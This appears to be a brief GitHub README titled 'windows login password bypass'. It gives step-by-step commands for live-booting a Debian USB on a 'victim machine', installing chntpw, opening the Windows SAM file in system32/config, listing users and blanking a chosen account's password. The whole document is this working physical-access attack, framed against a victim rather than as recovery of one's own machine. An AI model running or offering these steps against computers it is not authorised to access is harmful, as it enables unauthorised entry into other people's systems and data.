 ## windows login password bypass 


# requirements
- USB
- Debian live os 




## steps
- live boot into the victim machine
- install chntpw
- `sudo apt install chntpw`
- now mount the volume and  get into it
- cd path `Windows/system32/config/`
- there will be file named SAM 
- use chntpw `chntpw -l SAM`  to list users
- select the user to reset the password `chntpw -u <username> SAM`
-  select 1 to remove password
-  now quit using q
-  and save 
-   now boot into windows, Done
